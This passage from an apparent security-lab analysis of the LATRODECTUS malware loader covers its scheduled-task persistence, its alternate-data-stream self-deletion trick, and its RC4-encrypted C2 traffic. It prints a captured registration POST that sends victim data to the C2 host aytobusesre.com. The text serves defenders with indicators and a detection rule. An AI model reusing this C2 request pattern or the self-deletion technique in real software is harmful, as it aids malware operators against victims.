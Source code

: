 ![Scheduled task creation via COM](/assets/images/spring-cleaning-with-latrodectus/image14.png)


In our sample, the task name is hardcoded as ```Updater``` and scheduled to execute upon successful logon.

![Scheduled task properties](/assets/images/spring-cleaning-with-latrodectus/image12.png)


### Self-deletion

Self-deletion is one noteworthy technique incorporated by LATRODECTUS. It was [discovered](https://x.com/jonasLyk/status/1350401461985955840) by Jonas Lykkegaard and implemented by Lloyd Davies in the delete-self-poc [repo](https://github.com/LloydLabs/delete-self-poc). The technique allows LATRODECTUS to delete itself while the process is still running using an alternate data stream. 

Elastic Security Labs has seen this technique adopted in malware such as the [ROOK](https://chuongdong.com/reverse%20engineering/2022/01/06/RookRansomware/#anti-detection-alternate-data-streams) ransomware family. The likely objective is to hinder incident response processes by interfering with collection and analysis. The compiled malware contains a [string](https://github.com/LloydLabs/delete-self-poc/blob/49fe92218fdcfe8e173aa60a9eb307bae07cb027/main.h#L10) (```:wtfbbq```) present in the repository.

![Self-deletion code in LATRODECTUS](/assets/images/spring-cleaning-with-latrodectus/image2.png)


This technique is observed at the start of the infection as well as when the malware performs an update using event handler #15. Elastic Security Labs has created a [CAPA rule](https://github.com/mandiant/capa-rules/blob/master/anti-analysis/anti-forensic/self-deletion/self-delete-using-alternate-data-streams.yml) to help other organizations identify this behavior generically when analyzing various malware.

### Communication

LATRODECTUS encrypts its requests using base64 and RC4 with a hardcoded password of ```12345```. The first POST request over HTTPS that includes victim information along with configuration details, registering the infected system.

```
POST https://aytobusesre.com/live/ HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tob 1.1)
Host: aytobusesre.com
Content-Length: 256
Cache-Control: no-cache

M1pNDFh7flKrBaDJqAPvJ98BTFDZdSDWDD8o3bMJbpmu0qdYv0FCZ0u6GtKSN0g//WHAS2npR/HDoLtIKBgkLwyrIh/3EJ+UR/0EKhYUzgm9K4DotfExUiX9FBy/HeV7C4PgPDigm55zCU7O9kSADMtviAodjuRBVW3DJ2Pf5+pGH9SG1VI8bdmZg+6GQFpcFTGjdWVcrORkxBjCGq3Eiv2svt3+ZFIN126PcvN95YJ0ie1Puljfs3wqsW455V7O
```
![Initial registration request](/assets/images/spring-cleaning-with-latrodectus/image32.png)

